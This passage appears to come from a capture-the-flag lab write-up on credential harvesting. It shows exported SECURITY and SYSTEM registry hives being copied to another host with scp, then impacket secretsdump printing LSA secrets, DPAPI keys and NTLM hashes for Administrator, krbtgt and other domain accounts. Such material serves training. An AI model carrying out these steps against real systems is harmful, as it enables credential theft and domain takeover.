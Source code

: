 ```text

 Directory of c:\temp\registry

11/10/2022  01:53 AM    <DIR>          .
11/10/2022  01:53 AM    <DIR>          ..
06/13/2022  09:40 AM            65,536 SECURITY
06/13/2022  09:40 AM        20,971,520 SYSTEM
               2 File(s)     21,037,056 bytes
               2 Dir(s)  10,265,694,208 bytes free

c:\temp\registry>scp .\SECURITY nina@10.18.22.77:/home/nina/Downloads/last/
nina@10.18.22.77's password:
SECURITY                                                                              100%   64KB 455.2KB/s   00:00

c:\temp\registry>scp .\SYSTEM nina@10.18.22.77:/home/nina/Downloads/last/
nina@10.18.22.77's password:
SYSTEM                                                                                100%   20MB   1.2MB/s   00:17

c:\temp\registry>
```

Extract hashes from NTDS locally:

```text
$ ls
ntds.dit  SECURITY  SYSTEM
                                                                                
$ sudo python3 /opt/impacket/examples/secretsdump.py -security SECURITY -system SYSTEM -ntds ntds.dit local
[sudo] password for nina: 
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:c232a51e1cdcaaed24259e15687cbfc7a0130457855c918ebfccd5c54ab70c8f5b916aed1554619c1b617918098cb2dd3e3b981c61ccdba2af687d5d4d3a0aa6ae652f6d6c05cc30f21c75bd268107a5d07f60a0ef156073d5dc0282fe87d819d2ad387ab71ffc53fc56a34350ac3c2f990ca9aacacc615ab78576a52033dd468d1b6cf29f9ca18fb3c97b523e0289a0df7806b2a4d303714483d548fbb0866068cd17bad7c21ab5a00e863d17c8f6ddf88f6a3d72b425b231d6963968e7fbeba968e119f4c296cf600c2f53f31f2b383bf53cf1b9cbe0afccb04b36ce1759c91ffebf1649d9aea4c66c4b59f0f2a3f1
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b1800dfad5dc7a67143f158c68497624
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x0e88ce11d311d3966ca2422ac2708a4d707e00be
dpapi_userkey:0x8b68be9ef724e59070e7e3559e10078e36e8ab32
[*] NL$KM 
 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...
NL$KM:8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 55db1e9562985070bbba0ef2cc25754c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc9b72f354f0371219168bdb1460af32:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:b1800dfad5dc7a67143f158c68497624:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
```